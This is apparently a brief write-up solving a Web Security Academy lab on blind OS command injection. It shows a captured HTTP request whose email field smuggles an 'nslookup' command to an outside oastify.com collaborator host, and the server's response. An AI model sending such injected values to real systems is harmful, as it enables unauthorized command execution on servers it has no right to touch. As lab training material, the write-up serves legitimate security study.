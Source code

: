 	Sending the following request results in a hit to collaborator:
	
	```
	POST /feedback/submit HTTP/2
	Host: 0a39006204d02b9e8091e49a0097000a.web-security-academy.net
	Cookie: session=1McxLb2lWaNaBFGd9uyodxWSUupAnm83
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 166
	Origin: https://0a39006204d02b9e8091e49a0097000a.web-security-academy.net
	Referer: https://0a39006204d02b9e8091e49a0097000a.web-security-academy.net/feedback
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-Pwnfox-Color: magenta
	Priority: u=0
	Te: trailers
	
	csrf=xNsEm8VcnAybNoHTgWTJY7MqFygRJRi8&name=Tester&email=tester%40test.com%26nslookup+3pttdo9rho8ap0mjzkx76iv8yz4qsgg5.oastify.com%26&subject=Test&message=test+message
	```
	
	```
	HTTP/2 200 OK
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Content-Length: 2
	
	{}
	```
	
	![](../../../../assets/screenshots/command-injection/Pasted%20image%2020250801092618.png)
	
	And that solves the lab
